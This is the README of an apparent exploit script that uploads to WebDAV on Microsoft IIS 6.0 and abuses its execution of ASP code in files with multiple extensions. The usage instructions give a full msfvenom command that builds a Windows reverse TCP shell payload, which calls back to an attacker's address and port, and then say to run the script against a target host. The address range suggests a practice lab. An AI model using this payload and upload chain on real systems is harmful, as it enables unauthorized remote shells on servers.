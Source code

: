 # WebDAV Upload Bypass

Simple Script to exploit Webdav running on Microsoft IIS 6.0 incorrectly executing ASP code in files that have multiple file extensions. 

**TO USE:**

Generate msfvenom payload: e.g. msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.2 LPORT=9999 -f asp > reverse.asp
  
Then run: ./script \<host\> \<filename\>
